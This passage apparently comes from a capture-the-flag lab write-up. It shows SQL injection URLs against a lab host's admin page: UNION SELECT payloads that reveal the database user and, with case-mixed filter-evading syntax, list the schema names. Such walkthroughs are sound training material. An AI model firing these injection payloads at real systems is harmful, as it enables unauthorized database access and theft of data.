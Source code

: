 <figure><img src=".gitbook/assets/image (222).png" alt=""><figcaption></figcaption></figure>

```
# user of the db
http://10.10.180.141/admin?user=-1 UNION SELECT user(),NULL,NULL,NULL--
```

<figure><img src=".gitbook/assets/image (223).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# DB name

# i got the payload from payloadallthethings.
http://10.10.180.141/admin?user=-1%20UNION%20SELECT%20NULL,gRoUp_cOncaT(0x7c,schema_name,0x7c),NULL,NULL%20fRoM%20information_schema.schemata--

# db name is: marketplace
```
{% endcode %}

<figure><img src=".gitbook/assets/image (224).png" alt=""><figcaption></figcaption></figure>
